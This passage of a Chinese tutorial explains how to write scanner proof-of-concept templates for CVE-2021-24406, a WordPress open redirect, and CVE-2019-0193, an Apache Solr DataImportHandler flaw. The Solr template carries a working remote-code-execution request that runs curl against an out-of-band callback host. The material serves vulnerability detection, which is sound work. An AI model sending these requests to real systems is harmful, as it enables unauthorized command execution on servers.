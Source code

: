 ##### 编写POC

可以通过匹配器检测header中的Location字段验证漏洞存在

```Go
requests:
  - method: GET
    path:
      - "{{BaseURL}}/community/?foro=signin&redirect_to=https://interact.sh/"

    matchers:
      - type: regex
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh.*$'
```

将poc保存为CVE-2021-24406.yaml，可以在当前目录下执行命令`yak scan ``http://example.com`` -f CVE-2021-24406.yaml`实现对目标漏洞的检测。

#### CVE-2019-0193

##### 漏洞介绍

Apache Solr 是一个开源的企业级搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。Apache Solr 中存储的资源是以 Document 为对象进行存储的。它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

##### 漏洞分析

此漏洞存在于可选模块DataImportHandler中，DataImportHandler是用于从数据库或其他源提取数据的常用模块，该模块中所有DIH配置都可以通过外部请求的dataConfig参数来设置，由于DIH配置可以包含脚本，因此该参数存在安全隐患。攻击者可利用dataConfig参数构造恶意请求，实现远程代码执行。

##### 编写POC

此案例中漏洞的URL是 `/solr/{{core}}/dataimport?indent=on&wt=json`，其中 `core` 是核心的名称。通过 `/solr/admin/cores?wt=json` 可以获取核心的名称。因此，在编写 POC 时，需要在第一次请求中提取核心的名称，在第二次请求中使用提取的核心名称构造请求。在请求中，可以构造命令执行，例如构造一个 curl 请求，并在匹配器中检查是否有 HTTP 反连。

```YAML
http:
  - raw:
      - |
        GET /solr/admin/cores?wt=json HTTP/1.1
        Host: {{Hostname}}
        Accept-Language: en
        Connection: close
      - |
        POST /solr/{{core}}/dataimport?indent=on&wt=json HTTP/1.1
        Host: {{Hostname}}
        Content-type: application/x-www-form-urlencoded
        X-Requested-With: XMLHttpRequest

        command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22curl%20{{interactsh-url}}%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"

```